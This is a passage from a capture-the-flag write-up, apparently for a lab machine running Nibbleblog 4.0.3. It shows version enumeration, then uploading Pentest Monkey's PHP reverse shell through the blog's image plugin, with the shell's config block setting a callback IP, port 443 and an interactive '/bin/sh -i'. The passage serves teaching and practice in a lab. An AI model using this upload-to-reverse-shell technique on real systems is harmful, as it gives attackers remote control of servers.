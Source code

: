 We're in business! Looks like this version is vulnerable to uploading an executable to the image plugin. 

Quick aside: we also could have grabbed this version by further enumerating the Feroxbuster results, which included a http://10.10.10.75/nibbleblog/README, which also listed the version number:

```text
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01

Site: http://www.nibbleblog.com
Blog: http://blog.nibbleblog.com
Help & Support: http://forum.nibbleblog.com
Documentation: http://docs.nibbleblog.com
```

### Exploitation

So armed with all this knowledge lets try and upload a php-reverse-shell to the image plugin upload, and see if that gets us a shell, as it appears that the upload feature isn't checking for or sanitizing file type, and only allowing images to be loaded. 

I grab a copy of Pentest Monkey's famous php-reverse-shell.php from https://pentestmonkey.net/tools/web-shells/php-reverse-shell and make the following changes to the code, pasting in my Ip address for the callback as well as which port I will be listening on:

```php
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.30';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

I set up my netcat listener on port 443 and go ahead and upload the shell:

![shell_upload.png](../assets/nibbles_assets/shell_upload.png)
